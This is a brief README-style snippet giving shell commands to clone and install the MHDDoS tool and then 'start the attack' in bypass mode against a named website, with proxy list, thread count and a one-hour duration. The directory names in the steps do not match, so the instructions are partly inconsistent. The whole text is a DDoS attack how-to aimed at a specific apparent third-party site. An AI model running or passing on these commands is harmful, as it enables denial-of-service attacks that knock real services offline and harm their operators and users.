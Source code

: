 


**Clone and Install Script**

```shell script
git clone https://github.com/MatrixTM/MHDDoS.git
cd ethical-ddos
pip install -r requirements.txt
```
**To start the attack from Linux-Kali**
The bypass
```shell script
cd ethical-ddos
python3 start.py bypass https://paykey.com/  1 101 sockws5.txt 10970 3600 true
```


---

